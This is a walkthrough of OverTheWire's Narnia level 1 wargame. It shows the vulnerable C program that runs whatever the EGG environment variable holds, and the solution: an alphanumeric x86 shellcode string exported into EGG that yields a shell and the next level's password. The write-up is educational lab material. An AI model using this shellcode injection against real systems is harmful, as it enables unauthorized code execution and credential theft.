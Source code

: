 ```bash
user@host:~$ ssh narnia1@narnia.labs.overthewire.org -p 2226
efeidiedae
```

Just like in level 0 we will navigate to the `/narnia` directory, as there were some programs for each level. Let us first take a look at the program `narnia1`:

```bash
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```

The source code for the program is (excluding the licensing information):

```c
narnia1@narnia:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

The program will try to execute whatever is in the environment variable `EGG`. Currently, that variable is NULL.

```sh
narnia1@narnia:/narnia$ echo $EGG
>>>
```

We need a callable collection of bytes in order to make use of this exploit. This can be achieved using `shellcode`, a piece of code that allows a shell to start upon execution.

Using

```
narnia1@narnia:/narnia$ uname -a
Linux narnia 4.18.12 #1 SMP Tue Oct 16 11:25:23 UTC 2018 x86_64 GNU/Linux
```

we can see that the instruction should be for an `x_86` or `x86_64` OS architecture. There exist loads of different shellcodes for these systems, but we'll take an alphanumeric one.

```bash
narnia1@narnia:/narnia$ export EGG=hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat ../etc/narnia_pass/narnia2
nairiepecu
```
